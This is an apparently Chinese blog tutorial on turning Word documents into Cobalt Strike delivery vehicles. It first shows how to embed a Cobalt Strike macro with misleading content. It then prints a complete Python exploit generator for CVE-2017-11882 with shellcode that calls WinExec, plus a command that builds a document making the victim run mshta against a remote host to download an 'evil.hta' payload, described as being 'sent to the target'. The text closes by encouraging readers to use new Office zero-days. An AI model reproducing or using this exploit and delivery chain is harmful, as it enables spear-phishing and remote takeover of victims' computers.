






# 0x00 简介
宏是微软公司为其OFFICE软件包设计的一个特殊功能，它利用简单的语法，把常用的动作写成宏。宏病毒传播极快，可以多平台交叉感染，在鱼叉邮件投递内嵌恶意宏的Word文档是APT活动中经常用到的手法。

# 0x01 MS Office Macro
>使用  Attack>Packages>MS Office Macro




其实这里已经说的很清楚了，不过我们还是演示一下如何操作

这里使用的环境是office2013，新建一个word文档 然后新建一个宏







这里把Cobalt Strike生成的宏代码 放入 project 下面的工程里面就可以了



然后保存为启用宏的word，当然你可以在word里面加一些迷惑性的内容。
当目标点击后就上线了


# 0x02 CVE-2017-11882
光用他自带的感觉还是太枯燥，我们用前面学到的hta和CVE-2017-11882弄一个不需要宏的word
1.首先配置一个powershell的 hta 再用host file把他架设起来 
2.下载CVE-2017-11882 利用脚本 这里我直接用Ridter大佬写的脚本

```
# Original poc :https://github.com/embedi/CVE-2017-11882
# This version accepts a command with 109 bytes long in maximum.
# Sorry I don't know how to read the struct in objdata, hence I cannot modify the length parameter to aquire a arbitrary length code execution.
# But that's enough in exploitation. We can use regsvr32 to load sct file remotely.:)

import argparse
import sys
from struct import pack


head=r'''{\rtf1\ansi\ansicpg1252\deff0\nouicompat\deflang1033{\fonttbl{\f0\fnil\fcharset0 Calibri;}}
{\*\generator Riched20 6.3.9600}\viewkind4\uc1
\pard\sa200\sl276\slmult1\f0\fs22\lang9'''

objclass=r'''{\object\objemb\objupdate{\*\objclass Equation.3}\objw380\objh260{\*\objdata 01050000020000000b0000004571756174696f6e2e33000000000000000000000c0000d0cf11e0a1b11ae1000000000000000000000000000000003e000300feff0900060000000000000000000000010000000100000000000000001000000200000001000000feffffff0000000000000000fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffdffffff04000000fefffffffefffffffeffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff52006f006f007400200045006e00740072007900000000000000000000000000000000000000000000000000000000000000000000000000000000000000000016000500ffffffffffffffff0200000002ce020000000000c0000000000000460000000000000000000000008020cea5613cd30103000000000200000000000001004f006c00650000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000a000201ffffffffffffffffffffffff000000000000000000000000000000000000000000000000000000000000000000000000000000001400000000000000010043006f006d0070004f0062006a00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000120002010100000003000000ffffffff00000000000000000000000000000000000000000000000000000000000000000000000001000000660000000000000003004f0062006a0049006e0066006f0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000012000201ffffffff04000000ffffffff000000000000000000000000000000000000000000000000000000000000000000000000030000000600000000000000feffffff02000000fefffffffeffffff050000000600000007000000feffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff010000020800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000100feff030a0000ffffffff02ce020000000000c000000000000046170000004d6963726f736f6674204571756174696f6e20332e30000c0000004453204571756174696f6e000b0000004571756174696f6e2e3300f439b271000000000000000000000000000000000000000000000000000000000000000000000000000000000300040000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000'''


tail=r'''
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004500710075006100740069006F006E0020004E00610074006900760065000000000000000000000000000000000000000000000000000000000000000000000020000200FFFFFFFFFFFFFFFFFFFFFFFF00000000000000000000000000000000000000000000000000000000000000000000000004000000C5000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFF0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFF0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFF00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001050000050000000D0000004D45544146494C4550494354003421000035FEFFFF9201000008003421CB010000010009000003C500000002001C00000000000500000009020000000005000000020101000000050000000102FFFFFF00050000002E0118000000050000000B0200000000050000000C02A001201E1200000026060F001A00FFFFFFFF000010000000C0FFFFFFC6FFFFFFE01D0000660100000B00000026060F000C004D61746854797065000020001C000000FB0280FE0000000000009001000000000402001054696D6573204E657720526F6D616E00FEFFFFFF6B2C0A0700000A0000000000040000002D0100000C000000320A600190160A000000313131313131313131310C000000320A6001100F0A000000313131313131313131310C000000320A600190070A000000313131313131313131310C000000320A600110000A000000313131313131313131310A00000026060F000A00FFFFFFFF0100000000001C000000FB021000070000000000BC02000000000102022253797374656D000048008A0100000A000600000048008A01FFFFFFFF7CEF1800040000002D01010004000000F0010000030000000000
}{\result {\rtlch\fcs1 \af0 \ltrch\fcs0 \dn8\insrsid95542\charrsid95542 {\pict{\*\picprop\shplid1025{\sp{\sn shapeType}{\sv 75}}{\sp{\sn fFlipH}{\sv 0}}
{\sp{\sn fFlipV}{\sv 0}}{\sp{\sn fLockAspectRatio}{\sv 1}}{\sp{\sn pictureGray}{\sv 0}}{\sp{\sn pictureBiLevel}{\sv 0}}{\sp{\sn fRecolorFillAsPicture}{\sv 0}}{\sp{\sn fUseShapeAnchor}{\sv 0}}{\sp{\sn fFilled}{\sv 0}}{\sp{\sn fHitTestFill}{\sv 1}}
{\sp{\sn fillShape}{\sv 1}}{\sp{\sn fillUseRect}{\sv 0}}{\sp{\sn fNoFillHitTest}{\sv 0}}{\sp{\sn fLine}{\sv 0}}{\sp{\sn fPreferRelativeResize}{\sv 1}}{\sp{\sn fReallyHidden}{\sv 0}}
{\sp{\sn fScriptAnchor}{\sv 0}}{\sp{\sn fFakeMaster}{\sv 0}}{\sp{\sn fCameFromImgDummy}{\sv 0}}{\sp{\sn fLayoutInCell}{\sv 1}}}\picscalex100\picscaley100\piccropl0\piccropr0\piccropt0\piccropb0
\picw353\pich600\picwgoal200\pichgoal340\wmetafile8\bliptag1846300541\blipupi2307{\*\blipuid 6e0c4f7df03da08a8c6c623556e3c652}0100090000035100000000001200000000000500000009020000000005000000020101000000050000000102ffffff00050000002e0118000000050000000b02
00000000050000000c02200240011200000026060f001a00ffffffff000010000000c0ffffffaaffffff00010000ca0100000b00000026060f000c004d61746854797065000040000a00000026060f000a00ffffffff010000000000030000000000}}}}\par}
'''
#0:  b8 44 eb 71 12          mov    eax,0x1271eb44
#5:  ba 78 56 34 12          mov    edx,0x12345678
#a:  31 d0                   xor    eax,edx
#c:  8b 08                   mov    ecx,DWORD PTR [eax]
#e:  8b 09                   mov    ecx,DWORD PTR [ecx]
#10: 8b 09                   mov    ecx,DWORD PTR [ecx]
#12: 66 83 c1 3c             add    cx,0x3c
#16: 31 db                   xor    ebx,ebx
#18: 53                      push   ebx
#19: 51                      push   ecx
#1a: be 64 3e 72 12          mov    esi,0x12723e64
#1f: 31 d6                   xor    esi,edx
#21: ff 16                   call   DWORD PTR [esi] // call WinExec
#23: 53                      push   ebx
#24: 66 83 ee 4c             sub    si,0x4c
#28: ff 10                   call   DWORD PTR [eax] // call ExitProcess
stage1="\xB8\x44\xEB\x71\x12\xBA\x78\x56\x34\x12\x31\xD0\x8B\x08\x8B\x09\x8B\x09\x66\x83\xC1\x3C\x31\xDB\x53\x51\xBE\x64\x3E\x72\x12\x31\xD6\xFF\x16\x53\x66\x83\xEE\x4C\xFF\x10"


# pads with nop
stage1=stage1.ljust(44,'\x90')

def genrtf(cmd,r_head):
    if len(cmd) > 109:
        print "[!] Primitive command must be shorter than 109 bytes"
        sys.exit(0)
    payload='\x1c\x00\x00\x00\x02\x00\x9e\xc4\xa9\x00\x00\x00\x00\x00\x00\x00\xc8\xa7\\\x00\xc4\xee[\x00\x00\x00\x00\x00\x03\x01\x01\x03\n\n\x01\x08ZZ'
    payload+=stage1
    payload+=pack('<I',0x00402114) # ret
    payload+='\x00'*2
    payload+=cmd
    payload=payload.ljust(197,'\x00')

    return r_head+objclass+payload.encode('hex')+tail

def getrheader(file):
    input_file = open(file,"r").read()
    r_header = input_file.split("{\*\datastore")[0]
    return r_header

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description="PoC for CVE-2017-11882")
    parser.add_argument("-c", "--cmd", help="Command run in target system", required=True)
    parser.add_argument('-o', "--output", help="Output exploit rtf", required=True)
    parser.add_argument("-i", "--input", help="Input normal rtf.", required=False)

    args = parser.parse_args()
    if args.input != None:
        r_header = getrheader(args.input)
    else:
        r_header = head

    with open(args.output,'wb') as f:
        f.write(genrtf(args.cmd,r_header))
        f.close()

    print "[*] Done ! output file --> " + args.output 

```

然后执行
`python exp.py -c "mshta http://192.168.130.130:804/download/evil.hta" -o tes1t.doc`
发送给目标

可以看到web log的日志 下载hta后 我们的beacon也成功上线了


# 0x03 文末
Cobalt Strike  自带的感觉用处不大，大家可以配上新出来的office类的oday来利用 (用时一小时)

### 本文如有错误，请及时提醒，以免误导他人
